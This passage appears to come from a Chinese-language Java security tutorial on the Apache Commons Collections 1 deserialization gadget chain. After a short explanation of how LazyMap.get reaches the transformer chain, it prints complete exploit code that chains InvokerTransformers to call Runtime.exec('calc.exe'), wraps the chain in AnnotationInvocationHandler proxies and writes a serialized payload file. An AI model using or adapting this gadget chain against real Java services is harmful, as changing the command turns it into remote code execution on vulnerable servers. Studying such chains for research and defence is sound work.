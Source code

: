 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0116d0751952994c14.png)

因此invoke函数中调用this.memberValues.get即调用lazymap.get，从而到了this.factory.transform()，接下来内部是chainedTransformer+constantTransformer+3层invokeTransformer，因为get的参数是不存在的entryset，所以需要constantTransformer先返回一个Runtime类再通过3个invokeTransformer联合起来反射rce执行命令。<br>**CommonsCollections1.java：**

```
package CommonsCollections1;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import java.io.*;
import java.lang.Runtime;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;
import org.apache.commons.collections.map.LazyMap;
import java.lang.reflect.Proxy;
import java.lang.reflect.InvocationHandler;
public class exp `{`
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, IllegalAccessException, InvocationTargetException, InstantiationException, IOException `{`
      final Transformer[] trans = new Transformer[]`{`
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]`{`String.class,Class[].class`}`,
                        new Object[]`{`"getRuntime",new Class[0]`}`
                        ),//拿到Method getruntime方法
                new InvokerTransformer("invoke",
                        new Class[]`{`Object.class,Object[].class`}`,
                        new Object[]`{`null,new Object[0]`}`),//拿到Runtime类实例
                new InvokerTransformer("exec",
                        new Class[]`{`String.class`}`,
                        new String[]`{`"calc.exe"`}`)//调用exec执行命令
      `}`;
      final Transformer chained = new ChainedTransformer(trans); //封装chained调用链
      final Map innerMap = new HashMap();
      final Map outMap = LazyMap.decorate(innerMap,chained); //封装lazymap
      final Constructor&lt;?&gt; han_con = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
      han_con.setAccessible(true);
      InvocationHandler han = (InvocationHandler) han_con.newInstance(Override.class,outMap); //将lazymap放进membervalues，从而在membervalues.get变为laymap.get 
      final Map mapProxy = (Map)Proxy.newProxyInstance(exp.class.getClassLoader(),outMap.getClass().getInterfaces(),han);  //为lazymap设置动态代理，从而到达handler的invoke
      //将proxy代理放进外层的AnnotationInvocationHandler，从而membervalues.entryset触发动态代理
      final Constructor&lt;?&gt; out_con = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
      out_con.setAccessible(true);
      InvocationHandler out =(InvocationHandler) out_con.newInstance(Override.class,mapProxy); 
      FileOutputStream fo = new FileOutputStream(new File(System.getProperty("user.dir")+"/javasec-ysoserial/src/main/resources/commoncollections1.ser"));
      ObjectOutputStream obj = new ObjectOutputStream(fo);
      obj.writeObject(out);
      obj.close();
    `}`
`}`
```
